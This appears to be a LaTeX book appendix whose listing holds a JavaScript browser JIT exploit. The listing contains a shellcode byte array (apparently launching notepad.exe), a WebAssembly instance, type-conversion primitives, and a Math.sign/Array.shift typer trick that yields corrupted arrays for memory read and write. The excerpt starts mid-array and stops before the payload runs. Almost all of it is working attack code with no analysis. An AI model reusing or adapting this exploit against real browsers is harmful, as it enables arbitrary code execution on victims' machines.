 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
    0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 
	0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 
	0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 
	0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 
	0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 
	0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 
	0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 
	0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 
	0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 
	0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 
	0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 
	0x6F, 0x74, 0x65, 0x70, 0x61, 0x64, 0x2E, 0x65, 0x78, 
	0x65, 0x00];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 
	0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 
	130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 
	0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 
	6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 
	0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 
	97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 
	132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);

\end{lstlisting}
\end{appendices}
\end{document}
